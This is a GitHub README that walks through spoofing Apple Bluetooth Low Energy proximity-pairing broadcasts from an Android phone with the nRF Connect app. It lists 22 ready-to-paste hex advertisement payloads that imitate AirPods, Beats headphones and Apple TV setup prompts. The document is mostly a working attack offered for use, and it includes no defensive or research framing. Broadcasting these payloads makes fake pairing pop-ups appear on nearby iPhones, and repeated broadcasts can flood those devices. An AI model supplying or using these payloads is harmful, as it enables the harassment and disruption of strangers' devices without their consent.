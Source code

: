 # Spoof-your-Android-as-Apple-BLE-Proximity-Pairing-devise

# Plese Follow Below Steps & Instructions To Do this Propper

First of all you need to download nRF Connected App Use below link to download it
https://www.nordicsemi.com/Products/Development-tools/nrf-connect-for-mobile

- After downloaded that apk then you need to install it.
- After opening the app and giving the relevant permission, you can see an interface like this....
  
  ![20231008_224809](20231008_224809.gif)


- Now enable Bluetooth adapter and click the Advertiser secter.
- Now click the  +  icon at the down of the right hand corner.
- Type anything for Display name section
- Now click ADD RECORD & Select Manufacturer Data.
- Put 004C to Company Identifier.
- Now you need to put PayloadCodes to Hex Data  section & Hit enter.

  Every payload code is down there, all they have to do is copy the payload code of the device they want to spoof and put it in the place called Hex Data.

 ** Payload Data

1.Airpods

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x02, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

2.AirpodsPro

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x0e, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

3.AirpodsMax

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x0a, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

4.dataAirpodsGen3

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x13, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

5.AirpodsProGen2

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x14, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

6.PowerBeats

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x03, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

7.PowerBeatsPro

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x0b, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

8.BeatsSoloPro

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x0c, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

9.BeatsStudioBuds

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x11, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

10.dataBeatsFlex

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x10, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

11.BeatsX

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x05, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

12.BeatsSolo3

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x06, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

13.BeatsStudio3

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x09, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

14.BeatsStudioPro

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x17, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

15.BeatsFitPro

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x12, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

16.BeatsStudioBudsPlus

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x16, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

17.AppleTVSetup

````
0x16, 0xff, 0x4c, 0x00, 0x04, 0x04, 0x2a, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xc1, 0x01, 0x60, 0x4c, 0x95, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00

````

18.AppleTVPair

````
0x16, 0xff, 0x4c, 0x00, 0x04, 0x04, 0x2a, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xc1, 0x06, 0x60, 0x4c, 0x95, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00

````

19.AppleTVNewUser

````
0x16, 0xff, 0x4c, 0x00, 0x04, 0x04, 0x2a, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xc1, 0x2b, 0x60, 0x4c, 0x95, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00

````

20.AppleTVWirelessAudioSync

````
0x16, 0xff, 0x4c, 0x00, 0x04, 0x04, 0x2a, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xc1, 0xc0, 0x60, 0x4c, 0x95, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00

````

21.AppleTVHomekitSetup

````
0x16, 0xff, 0x4c, 0x00, 0x04, 0x04, 0x2a, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xc1, 0x0d, 0x60, 0x4c, 0x95, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00

````

22.AppleTVKeyboard

````
0x16, 0xff, 0x4c, 0x00, 0x04, 0x04, 0x2a, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xc1, 0x13, 0x60, 0x4c, 0x95, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00

````
















  
